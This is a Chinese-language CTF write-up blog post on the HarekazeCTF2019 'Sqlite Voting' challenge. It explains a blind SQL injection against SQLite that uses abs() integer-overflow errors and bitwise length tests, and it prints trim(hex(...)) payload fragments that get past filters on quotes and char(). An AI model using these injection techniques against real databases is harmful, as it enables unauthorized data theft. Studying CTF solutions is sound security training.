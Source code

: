 ```yaml
---
title: '[HarekazeCTF2019]Sqlite Voting'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/41414542.jpg'
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-01-26 15:38:11
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/1126609.png
---
```


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210127211526.png)

由schema.sql可知flag在flag表里，update有不同的回显，猜测可以盲注。虽然引号和char都被ban了，但还能用hex。

先考虑对 flag 16 进制长度的判断，假设它的长度为 x，y 表示 2 的 n 次方，那么 x&y 就能表现出 x 二进制为 1 的位置，将这些 y 再进行或运算就可以得到完整的 x 的二进制，也就得到了 flag 的长度，而 1<<n 恰可以表示 2 的 n 次方

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210127222415.png)

如何构造报错就不知道了，看了wp知道是sqlite3的一个特性：在 sqlite3 中，abs 函数有一个整数溢出的报错，如果 abs 的参数是 -9223372036854775808 就会报错，同样如果是正数也会报错。

判断flag长度：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210127234041.png)

接下来一个个进行判断，但是 is_valid() 过滤了大部分截取字符的函数，而且也无法用 ASCII 码判断。

不会，参考wp。

这一题对盲注语句的构造很巧妙，首先利用如下语句分别构造出 ABCDEF ，这样十六进制的所有字符都可以使用了，并且使用 trim(0,0) 来表示空字符。

    # hex(b'zebra') = 7A65627261
      # 除去 12567 就是 A ，其余同理
      A = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'

      C = 'trim(hex(typeof(.1)),12567)'

      D = 'trim(hex(0xffffffffffffffff),123)'

      E = 'trim(hex(0.1),1230)'

      F = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'

      # hex(b'koala') = 6B6F616C61
      # 除去 16CF 就是 B
      B = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{C}||{F})'

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210128003015.png)
懒得写脚本，嫖了一个

HarekazeCTF2019 Web全部WP参考：https://xz.aliyun.com/t/6628